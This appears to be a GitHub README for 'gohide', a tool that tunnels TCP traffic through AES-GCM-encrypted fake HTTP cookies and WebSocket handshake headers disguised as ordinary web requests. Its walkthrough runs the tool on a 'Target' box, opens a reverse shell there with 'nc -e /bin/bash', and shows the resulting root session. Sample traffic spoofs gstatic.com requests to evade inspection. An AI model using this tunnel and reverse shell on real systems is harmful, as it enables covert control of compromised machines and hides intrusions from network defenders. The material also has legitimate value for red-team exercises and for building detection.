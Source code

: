 # gohide 

Tunnel TCP port to port traffic via an obfuscated channel with AES-GCM encryption. 

**Obfuscation Modes**
- Session Cookie HTTP GET (http-client)
- Set-Cookie Session Cookie HTTP/2 200 OK (http-server) 
- WebSocket Handshake "Sec-WebSocket-Key" (websocket-client)
- WebSocket Handshake "Sec-WebSocket-Accept" (websocket-server)
- No obfuscation, just use AES-GCM encrypted messages (none)

AES-GCM is enabled by default for each of the options above.

**Usage**
```
root@WOPR-KALI:/opt/gohide# ./gohide -h
Usage of ./gohide:
  -f string
    	listen fake server -r x.x.x.x:xxxx (ip/domain:port) (default "0.0.0.0:8081")
  -k openssl passwd -1 -salt ok | md5sum
    	aes encryption secret: run with '-k openssl passwd -1 -salt ok | md5sum' to derive key from password without exposing to command line (default "5fe10ae58c5ad02a6113305f4e702d07")
  -l string
    	listen port forward -l x.x.x.x:xxxx (ip/domain:port) (default "127.0.0.1:8080")
  -m string
    	obfuscation mode (AES encrypted by default): websocket-client, websocket-server, http-client, http-server, none (default "none")
  -r string
    	forward to remote fake server -r x.x.x.x:xxxx (ip/domain:port) (default "127.0.0.1:9999")
```

**Scenario**

Box A - Reverse Handler.

```
root@WOPR-KALI:/opt/gohide# ./gohide -f 0.0.0.0:8081 -l 127.0.0.1:8080 -r 127.0.0.1:9091 -m websocket-client
Local Port Forward Listening: 127.0.0.1:8080
FakeSrv Listening: 0.0.0.0:8081
```
Box B - Target.
```
root@WOPR-KALI:/opt/gohide -f 0.0.0.0:9091 -r 127.0.0.1:8081 -l 127.0.0.1:9090 -m websocket-server
Local Port Forward Listening: 127.0.0.1:9090
FakeSrv Listening: 0.0.0.0:9091

```
Box B - Netcat /bin/bash

```
root@WOPR-KALI:/var/tmp# nc -e /bin/bash 127.0.0.1 9090

```
Box A - Netcat client
```
root@WOPR-KALI:/opt/gohide# nc -v 127.0.0.1 8080
localhost [127.0.0.1] 8080 (http-alt) open
id
uid=0(root) gid=0(root) groups=0(root)
uname -a
Linux WOPR-KALI 5.3.0-kali2-amd64 #1 SMP Debian 5.3.9-1kali1 (2019-11-11) x86_64 GNU/Linux
netstat -pantwu 
Active Internet connections (servers and established)
tcp        0      0 127.0.0.1:39684         127.0.0.1:8081          ESTABLISHED 14334/./gohide      

```
**Obfuscation Samples**

websocket-client (Box A to Box B)
- Sec-WebSocket-Key contains AES-GCM encrypted content e.g. "uname -a".
```
GET /news/api/latest HTTP/1.1
Host: cdn-tb0.gstatic.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Trident/7.0; rv:11.0) like Gecko
Upgrade: websocket
Connection: Upgrade
Sec-WebSocket-Key: 6jZS+0Wg1IP3n33RievbomIuvh5ZdNMPjVowXm62
Sec-WebSocket-Version: 13
```

websocket-server (Box B to Box A)
- Sec-WebSocket-Accept contains AES-GCM encrypted output.
```
HTTP/1.1 101 Switching Protocols
Upgrade: websocket
Connection: Upgrade
Sec-WebSocket-Accept: URrP5l0Z3NIHXi+isjuIyTSKfoP60Vw5d2gqcmI=
```
http-client
- Session cookie header contains AES-GCM encrypted content
```
GET /news/api/latest HTTP/1.1
Host: cdn-tbn0.gstatic.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Trident/7.0; rv:11.0) like Gecko
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://www.bbc.co.uk/
Connection: keep-alive
Cookie: Session=R7IJ8y/EBgCanTo6fc0fxhNVDA27PFXYberJNW29; Secure; HttpOnly
```
http-server
- Set-Cookie header contains AES-GCM encrypted content.
```
HTTP/2.0 200 OK
content-encoding: gzip
content-type: text/html; charset=utf-8
pragma: no-cache
server: nginx
x-content-type-options: nosniff
x-frame-options: SAMEORIGIN
x-xss-protection: 1; mode=block
cache-control: no-cache, no-store, must-revalidate
expires: Thu, 21 Nov 2019 01:07:15 GMT
date: Thu, 21 Nov 2019 01:07:15 GMT
content-length: 30330
vary: Accept-Encoding
X-Firefox-Spdy: h2
Set-Cookie: Session=gWMnQhh+1vkllaOxueOXx9/rLkpf3cmh5uUCmHhy; Secure; Path=/; HttpOnly

```

none
```
8JWxXufVora2FNa/8m2Vnub6oiA2raV4Q5tUELJA
```

Enjoy~
